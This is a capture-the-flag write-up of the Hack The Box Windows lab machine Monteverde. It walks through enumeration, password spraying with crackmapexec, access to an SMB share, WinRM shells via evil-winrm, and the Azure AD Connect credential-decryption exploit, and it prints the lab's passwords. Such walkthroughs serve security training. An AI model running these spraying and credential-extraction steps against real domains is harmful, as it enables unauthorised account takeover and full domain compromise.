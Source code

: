 ```yaml
---
title: "[Writeup] Hack The Box: Monteverde"
date: 2020-05-05T23:28:11+07:00
categories: [writeup]
tags: [writeup, walkthrough, htb, hackthebox]
---
```


Monteverde is a Medium difficulty Windows box. You don't need many fancy techniques to clear this box, as the process is quite clear and straightforward. The important point for this box is enumeration, as the saying goes, *"Enumeration is the key"*.

{{< img src="/images/writeup/htb_monteverde/infocard.png">}}

<!--more-->

**OS:** Windows  
**Difficulty:** Medium  
**Points:** 30  
**Release:** 11 Jan 2020  
**IP:** 10.10.10.172  
**Box Creator:** egre55  
**Date Cleared:** 23 Apr 2020

## Information Gathering

Starting with `nmap` as usual.

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-05-05 13:30:53Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49706/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=5/5%Time=5EB1759D%P=x86_64-pc-linux-gnu%r(DNSVe
SF:rsionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\x
SF:04bind\0\0\x10\0\x03");
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows
```

I used `enum4linux` and found a list of users on the target.

{{< img src="/images/writeup/htb_monteverde/enum4linux.png">}}

## Gaining Access

I put the usernames found into a text file then performed a simple password spraying with `crackmapexec`, and found that the credential `SABatchJobs:SABatchJobs` is valid.

`crackmapexec smb 10.10.10.172 -u ./userlist  -p ./userlist`

{{< img src="/images/writeup/htb_monteverde/SABatchJobs.png">}}

The user `SABatchJobs` could be used to list the SMB shares.

`smbclient -L \\\\10.10.10.172 -U 'MEGABANK\SABatchJobs'`

{{< img src="/images/writeup/htb_monteverde/shares.png">}}

The `users$` share is accessible with `SABatchJobs`, so I mounted the share to my file system for the ease of searching.

`mkdir users$`
`mount -t cifs //10.10.10.172/users$ ./mount -o username=SABatchJobs,password=SABatchJobs,domain=MEGABANK`

{{< img src="/images/writeup/htb_monteverde/share_users.png">}}

I found a file named `mhope/azure.xml` with password in users$ share

{{< img src="/images/writeup/htb_monteverde/share_users_mhope.png">}}

Using `crackmapexec` to test the new password found with the user list we got, I found that `mhope:4n0therD4y@n0th3r$` is valid.

`crackmapexec smb 10.10.10.172 -u ./userlist  -p '4n0therD4y@n0th3r$'`

{{< img src="/images/writeup/htb_monteverde/crackmapexec_mhope.png">}}

From the `nmap` result in the beginning, we can see that WinRM port `5985` is open, so I used [`evil-winrm`](https://github.com/Hackplayers/evil-winrm)to connect to the target and got the user shell.

`evil-winrm -i 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'`

{{< img src="/images/writeup/htb_monteverde/shell_mhope.png">}}

## Privilege Escalation

Using `whoami /all`, I found an interesting group `Azure Admins`.

{{< img src="/images/writeup/htb_monteverde/whoami.png">}}

Looking in the `Program Files` directory, I found that Microsoft Azure AD Connect is installed on the machine.

{{< img src="/images/writeup/htb_monteverde/programfiles.png">}}

With a brief Google search, I found that AD Connect has a privilege escalation vulnerability (<https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/>).

{{< img src="/images/writeup/htb_monteverde/adconnectvuln.png">}}

I uploaded the precompiled exploit binary from <https://github.com/VbScrub/AdSyncDecrypt/releases> to the target machine using `wget` and `SimpleHTTPServer`.

{{< img src="/images/writeup/htb_monteverde/upload.png">}}

I went to Microsoft Azure AD Sync directory and run the exploit to get administrator credentials.

`cd "C:\Program Files\Microsoft Azure AD Sync\Bin"`
`C:\Program Files\Microsoft Azure AD Sync\Bin> C:\Users\mhope\AdDecrypt.exe -FullSQL`

{{< img src="/images/writeup/htb_monteverde/azureadexploit.png">}}

With the credentials found, I could log in as the Administrator.

`evil-winrm -i 10.10.10.172 -u administrator -p 'd0m@in4dminyeah!'`

{{< img src="/images/writeup/htb_monteverde/admin_shell.png">}}